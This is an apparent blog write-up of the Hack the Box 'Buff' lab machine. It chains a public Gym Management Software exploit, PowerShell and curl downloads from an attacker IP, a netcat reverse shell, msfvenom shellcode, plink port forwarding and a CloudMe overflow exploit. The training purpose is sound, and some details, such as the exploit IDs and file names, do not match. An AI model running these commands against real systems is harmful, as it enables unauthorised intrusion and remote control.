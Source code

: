 +++
author = "Nick"
categories = ["hack the box", "easy", "windows", "CVE", "webshell", "port forwarding", "reverse shell", "plink"]
date = 2020-07-18T15:00:00Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2020/08/info.png"
slug = "hack-the-box-buff"
summary = "Welcome back everyone! Today we are going to be doing the Hack the Box machine - Buff. This is listed as an easy Windows box. Let's jump in!"
tags = ["hack the box", "easy", "windows", "CVE", "webshell", "port forwarding", "reverse shell", "plink"]
title = "Hack the Box - Buff"

+++


Welcome back everyone! Today we are going to be doing the Hack the Box machine - Buff. This is listed as an easy Windows box. Let's jump in!

As always we start with `nmap` scan: `nmap -sC -sV -p- -oA allscan 10.10.10.198`

Here are our results:
```
Nmap scan report for 10.10.10.198
Host is up (0.16s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut
```

We see only two ports. So we head over to port `8080` and see what is being hosted. We land on a gym page. Exploring the page a bit shows that it's built on a software called `Gym Management Software 1.0`. A quick google shows us there are a few possible exploits for this software.

{{< figure src="__GHOST_URL__/content/images/2020/08/image.png" >}}

We will quickly mirror this exploit to our working directory with `searchsploit`.

Command:
`searchsploit -m 48506`

Reading through the exploit and how it works, we simply need to supply our target URL.

Command:
`python2 48506.py http://10.10.10.198:8080/`

{{< figure src="__GHOST_URL__/content/images/2020/08/buffshell.gif" >}}

We get back a webshell. We can now use this to quickly snag our `users.txt` flag.

{{< figure src="__GHOST_URL__/content/images/2020/08/image-1.png" >}}

Now that we have this flag, we can look at creating a more stable connection and look for ways to escalate. We can use `nc` or `plink` to create a connnection back to our attacking system. First we need to download those tools to this system.

Command:
`powershell.exe -exec bypass -C "iex(New-Object Net.WebClient).DownloadFile('http://10.10.14.210/nc64.exe', 'C:\xampp\htdocs\gym\upload\nc64.exe')"`

Once thats on the system we can create our callback.

Command:
`.\nc.exe 10.10.14.210 7777 -e powershell.exe`

Make sure we have our listener as well.
`nc -lcnp 7777`

Once we do that we get our shell back.

{{< figure src="__GHOST_URL__/content/images/2020/08/image-2.png" >}}

Now we just download `winPEAS` the same as we have for other tools:

Command:
`iex(New-Object Net.WebClient).DownloadFile("http://10.10.14.210/winPEAS.exe", "C:\Temp\wp.exe")`

When we try to run the file however, we are blocked.

{{< figure src="__GHOST_URL__/content/images/2020/08/image-3.png" >}}

So we just download the `.bat` version instead. As we sift through this data we don't see much too exciting. As we manually browse the the contents of the machine, we noticed `CloudMe_1112.exe` in downloads. When we check against the `winPeas` scan from above we see that port 8888 is open locally, the port `CloudMe` uses. A quick search for any exploits of the software shows there is one on [exploit-db](https://www.exploit-db.com/exploits/48389).

The goal here is to do some port forwarding to our machine and run this exploit. To do this we'll need to use `plink`. We'll also need to create our own shellcode exploit as well.

First we'll generate our shellcode:

Command:
`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.210 LPORT=6969 -f c > shellcode`

We'll need to put this code in our exploit code later on. Next, let's get `plink` onto the target machine.

Command:
`curl http://10.10.14.210/plink.exe -o C:\tmp\plink.exe`

We can now create a port forwarding scenario to access remote ports locally. First start our `SSH` service if it's not already running.

Command:
`service ssh start`

Now create our port forward:

Command:
`.\plink.exe -ssh rootflag@10.10.14.210 -R 1234:127.0.0.1:8888`

This will then prompt us to login with the account. Once we do we should see a basic prompt.

{{< figure src="__GHOST_URL__/content/images/2020/08/image-5.png" >}}

Now we should have the remote port of `8888` being forwarded to our local port of `1234`. If you try to curl the port, it's not going to get back any info but that's normally what I would do to be sure it worked.

Now that we have the ports forwarded, we can modify the exploit we found earlier - `44470.py`. First we need to replace the shellcode inside the exploit with our generated backdoor code. That's the code on line 31 - 52. Once we've pasted in our new shell code, we need to modify line 57 to reflect our port. In this case, we set or local port to `1234`. So we'll need to make that the value rather than `8888`

{{< figure src="__GHOST_URL__/content/images/2020/08/image-6.png" >}}

Now with that saved. We can setup another listener to catch our reverse shell for the exploitcode that we made in the first step.

Command:
`nc -lvnp 6969`

We can now run the exploit. If you're on a public machine like myself, you might need to run it a few times.

Command:
`python2 44470.py` 

If all goes well, your listen will catch the connection.

{{< figure src="__GHOST_URL__/content/images/2020/08/image-4.png" >}}

We now have an admin shell. We get our `root.txt` flag and box complete!

If you learned something in this box, send some respect my way - [HTB Profile](https://www.hackthebox.eu/home/users/profile/95635)



